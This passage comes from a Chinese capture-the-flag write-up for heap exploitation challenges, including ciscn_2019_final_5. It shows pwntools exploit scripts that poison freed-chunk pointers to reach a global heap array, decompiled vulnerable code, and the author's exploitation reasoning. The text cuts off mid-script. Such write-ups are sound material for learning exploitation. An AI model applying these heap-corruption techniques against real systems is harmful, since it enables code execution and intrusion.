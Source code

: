 ```python
	p.recvuntil("choice>\n")
	p.sendline("3")
	p.recvuntil("index>\n")
	p.sendline(str(index))
	p.send(str(content))

#sys_ad=0x602090
sys_ad=0x4008A6
ad=0x602080
allo(0x40)#0
#allo(0x)
free(0)
edit(0,p64(ad))
allo(0x40)#1
allo(0x40)#2
edit(2,p64(0))

p.sendline("4")
p.interactive()
```

### 2.ciscn_2019_final_5 ###
这个题有点东西，从下午写到晚上才写出来，主要是犯的错太多了，一开始交互又写错了，浪费了好多时间
这个题中索引堆块是通过heap_array中堆地址的最后一位，edit函数中size则是根据idx
主要漏洞点在于
malloc函数
```c
if ( !result )
    {
      qword_6020E0[i] = v5;//v5=index | heap_ad 堆的起始地址位0x250 当index等于16的时候堆的地址,v5 = 0x260,可以伪造一个堆，再free，然后再得到这个堆改别的
      //堆的fd，就可以分配到heap_array(0x6020e0)处，之后就可以随便做了，一开始我没分配到heap_array,做了好久也没做出来
      result = i;
      dword_602180[i] = v2;
      break;
    }
```
free函数
```c
if ( result == v2 )
    {
      free((void *)(qword_6020E0[i] & 0xFFFFFFFFFFFFFFF0LL));
      qword_6020E0[i] = 0LL;
      dword_602180[i] = 0;
      result = puts("free success.\n");
      break;
    }
```
思路:先分配一个0x10的堆，然后内容为伪造的堆块的内容，此时再分配一个大堆块(可以覆盖到heap_array的大小)，然后free掉大的和伪造的，此时
再分配我们伪造的堆块的大小，就能得到伪造的堆块，此时再修改大堆块的fd为0x6020e0，后面的操作就比较常规了
```python
from pwn import *

p=remote("node4.buuoj.cn",28896)

elf = ELF("./pwn")
libc = ELF('./libc.so.6')

#context.log_level='debug'
def allo(idx,size,con):
	p.recvuntil("your choice: ")
	p.sendline("1")
	p.recvuntil("index: ")
	p.sendline(str(idx))
```